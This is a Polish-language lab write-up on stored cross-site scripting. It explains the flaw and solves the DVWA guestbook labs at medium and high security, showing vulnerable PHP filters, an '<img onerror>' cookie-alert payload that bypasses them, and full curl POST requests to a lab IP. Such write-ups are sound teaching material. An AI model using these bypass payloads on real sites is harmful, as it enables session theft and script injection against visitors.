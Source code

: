 # Stored XSS
## Opis techniki
<blockquote>
Stored Cross-Site Scripting (XSS) to podatność, w której atakujący wstrzykuje złośliwy skrypt do strony internetowej, który następnie jest przechowywany na serwerze. Ten przechowywany skrypt jest serwowany użytkownikom, którzy odwiedzają zainfekowaną stronę, powodując wykonanie skryptu przez ich przeglądarki.

Oto kilka kluczowych cech i zagrożeń związanych ze Stored XSS:
* Brak odpowiedniej walidacji danych wejściowych i wyjściowych: Stored XSS występuje, gdy złośliwy skrypt jest trwale zapisany na serwerze, na przykład w bazie danych, i następnie serwowany użytkownikom. Jeśli aplikacja nie waliduje ani nie filtruje odpowiednio danych wejściowych i wyjściowych, atakujący może zainfekować serwer złośliwym skryptem.
* Trwałość ataku: W przeciwieństwie do Reflected XSS, złośliwe skrypty w Stored XSS są trwale przechowywane na serwerze. To oznacza, że atak może trwać przez dłuższy czas, nawet jeśli atakujący nie podejmuje dalszych działań, dopóki podatność nie zostanie wykryta i naprawiona.
* Zagrożenie dla szerokiej grupy użytkowników: Ze względu na trwałość ataku, Stored XSS może wpływać na dużą liczbę użytkowników. Każda osoba, która odwiedza stronę z przechowywanym złośliwym skryptem, może zostać zaatakowana. To czyni Stored XSS szczególnie niebezpiecznym dla witryn z dużym ruchem.
* Zagrożenie dla danych użytkownika i sesji: Stored XSS może prowadzić do kradzieży wrażliwych danych, takich jak ciasteczka sesji, co pozwala atakującemu przejąć sesję użytkownika. Ponadto, może być wykorzystane do przechwycenia interakcji użytkownika, wprowadzenia do systemu złośliwych skryptów, czy nawet pełnej manipulacji zawartością strony internetowej.
</blockquote>

## Zapobieganie
<blockquote>
Podobnie jak w przypadku reflected XSS, ważne jest prawidłowe kodowanie danych wyjściowych, a także sprawdzanie i czyszczenie wszelkich danych wejściowych. Przechowywane XSS może również wymagać bardziej rygorystycznych kontroli nad tym, co użytkownicy mogą przechowywać na serwerze.
</blockquote>

## DVWA labs
- [DVWA Stored XSS #2 - Medium](#dvwa-XSS-Stored-1---medium)

- [DVWA Stored XSS #3 - High](#dvwa-XSS-Stored-2---high)

<br/>

## DVWA Stored XSS #1 - Medium
Na średnim poziomie trudności musimy mieć na uwadze następujące cechy laboratorium:
* Filtrowanie parametru "mtxMessage" i "txtName"
* Filtrowanie polega na użyciu metody strip_tags() oraz htmlspecialchars()
* W przypadku parametru "txtName" nie użyto htmlspecialchars()

#### Kod źródłowy strony `PHP`
```php
<?php
if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = str_replace( '<script>', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}
?> 
```

#### Payload
Podatny endpoint: `http://10.10.236.56/vulnerabilities/xss_s/`<br/>
URL: `http://10.10.236.56/vulnerabilities/xss_s/<img+src+onerror=alert(document.cookie)>&mtxMessage=baw_medium&btnSign=Sign+Guestbook`

#### Komenda curl - [Wzór zapytania]
```bash
curl -i -s -k -X $'POST' \
    -H $'Host: 10.10.236.56' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 103' -H $'Origin: http://10.10.236.56' -H $'Connection: close' -H $'Referer: http://10.10.236.56/vulnerabilities/xss_s/' -H $'Upgrade-Insecure-Requests: 1' -b $'PHPSESSID=o8bg59jl012q96i1sjk4p9ieo0; security=medium' --data-binary $'txtName=%3Cimg+src+onerror%3Dalert%28document.cookie%29%3E&mtxMessage=baw_medium&btnSign=Sign+Guestbook' $'http://10.10.236.56/vulnerabilities/xss_s/'
```

#### Efekt działania:
![alt text](https://github.com/249064/CBE-BAW-2023/raw/main/res/XSS_Stored_med.png "Po wykonaniu odpowiedniego zapytania następuje X")

Do obejścia zabezpieczenia użyto tagu "<img>" i wykorzystano brak wszystkich filtrów w przypadku parametru txtName. Po wykonaniu odpowiedniego zapytania na stronie ukazuje się szkodliwy komentarz, dzięki któremu przeglądarka użytkowników wchodzących na podatną stronę wykona zamieszczony w "Name" komentarza kod.

<br/>
<br/>

## DVWA Stored XSS #2 - High
Na trudnym poziomie trudności musimy mieć na uwadze następujące cechy laboratorium:
* Filtrowanie parametru "mtxMessage" z użyciem strip_tags() oraz htmlspecialchars()
* Filtrowanie parametru "txtName", aby usunąć możliwość użycia tagu "script"

#### Kod źródłowy strony `PHP`
```php
<?php
if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}
?> 
```

#### Payload
Podatny endpoint: `http://10.10.236.56/vulnerabilities/xss_s/`<br/>
URL: `http://10.10.236.56/vulnerabilities/xss_s/<img+src+onerror=alert(document.cookie)>&mtxMessage=baw_high&btnSign=Sign+Guestbook`

#### Komenda curl - [Wzór zapytania]

```bash
curl -i -s -k -X $'POST' \
    -H $'Host: 10.10.236.56' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 101' -H $'Origin: http://10.10.236.56' -H $'Connection: close' -H $'Referer: http://10.10.236.56/vulnerabilities/xss_s/' -H $'Upgrade-Insecure-Requests: 1' -b $'PHPSESSID=o8bg59jl012q96i1sjk4p9ieo0; security=high' --data-binary $'txtName=%3Cimg+src+onerror%3Dalert%28document.cookie%29%3E&mtxMessage=baw_high&btnSign=Sign+Guestbook'  $'http://10.10.236.56/vulnerabilities/xss_s/'

```

#### Efekt działania:
![alt text](https://github.com/249064/CBE-BAW-2023/raw/main/res/XSS_Stored_hard.png "Po wykonaniu odpowiedniego zapytania następuje X")

<br/>

Do obejścia zabezpieczenia użyto tagu `<img>`. Po wykonaniu odpowiedniego zapytania na stronie ukazuje się szkodliwy komentarz, dzięki któremu przeglądarka użytkowników wchodzących na podatną stronę wykona zamieszczony w "Name" komentarza kod.
